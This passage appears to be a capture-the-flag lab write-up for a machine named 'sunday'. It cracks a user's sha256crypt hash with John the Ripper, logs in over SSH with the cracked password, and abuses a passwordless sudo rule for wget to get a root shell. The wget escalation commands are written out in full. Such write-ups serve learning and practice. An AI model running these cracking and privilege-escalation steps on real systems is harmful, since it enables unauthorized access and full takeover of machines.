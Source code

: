 
Using john to crack hash

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt
```

```sh
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)     
1g 0:00:00:25 DONE (2023-08-01 09:29) 0.03955g/s 8101p/s 8101c/s 8101C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Sammy:cooldude!

---

#### The SAMMY verse

I used the creds to login to ssh in port 22022

```sh
sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

Wget can be run as root

Went here to see how can I abuse wget - https://gtfobins.github.io/gtfobins/wget/

![[Pasted image 20230802070846.png]]

Got this . Entered the text line by line to get root.

```sh
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

Root flag 🚩 - In /root/root.txt
